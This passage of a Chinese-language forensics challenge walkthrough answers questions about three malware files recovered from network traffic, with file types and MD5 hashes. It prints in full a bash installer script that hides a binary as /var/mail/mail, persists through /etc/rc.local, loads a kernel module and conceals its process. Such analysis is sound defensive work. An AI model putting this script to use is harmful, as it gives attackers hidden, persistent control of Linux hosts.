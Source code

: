 HTTP 对象。

> 9.主要的恶意软件 MD5 哈希是什么？

我可以导出所有三个文件，并将它们保存到我的本地机器上。查看每个文件，我可以看到前两个文件是 ELF 二进制文件，第三个文件是一个脚本:

```
$ file malware-1 malware-2 malware-3**malware-1**: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header**malware-2**: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=21064e0e38e436aa28aecd2612f20205977b3826, with debug_info, not stripped**malware-3**: Bourne-Again shell script, ASCII text executable
```

查看第三个文件(即恶意软件-3)的内容，我可以看到名为 1 的文件(即恶意软件-1)是主要的恶意软件文件:

```
#!/bin/bashmv **1** /var/mail/mail
chmod +x /var/mail/mail
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
nohup /var/mail/mail > /dev/null 2>&1&
mv 2 /lib/modules/`uname -r`/sysmod.ko
depmod -a
echo "sysmod" >> /etc/modules
modprobe sysmod
sleep 1
pidof mail > /proc/dmesg
rm 3
```

然后，我可以检查所有三个文件的 MD5 哈希，并获得主要恶意软件文件的哈希:

```
$ md5sum malware-1 malware-2 malware-3**772b620736b760c1d736b1e6ba2f885b  malware-1**
2f41df5a12a1f64e47dede21f1c47326  malware-2
dadbb7fe0577d016bb825d3c59dc3715  malware-3
```

> 10.脚本修改了什么文件，恶意软件会在重启时启动？

如果我们参考前面看到的 bash 脚本的内容，我们可以注意到, *echo* 命令用于向“ **/etc/rc.local** ”脚本添加一个新命令。

```
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
```

该脚本通常在所有正常系统服务启动后执行，在切换到多用户运行级别的过程结束时执行，并可用于启动定制服务。

> 11.恶意软件将本地文件保存在哪里？

同样，查看 bash 脚本的内容，我们可以看到恶意软件将本地文件存储在“/var/mail”文件夹中。

```
mv 1 /var/mail/mail
```

> 12.ps.log 缺什么？

Linux 为我们提供了一个名为 **ps** ( **“进程状态”**)的实用程序，用于查看系统上进程的相关信息，并用于列出当前正在运行的进程。根据我们在上面的 bash 脚本中看到的，我们应该会看到“ **/var/mail/mail** ”进程正在运行，但是它似乎不在 ps.log 文件中。

> 13.用于从 ps.log 中删除该信息的主文件是什么？
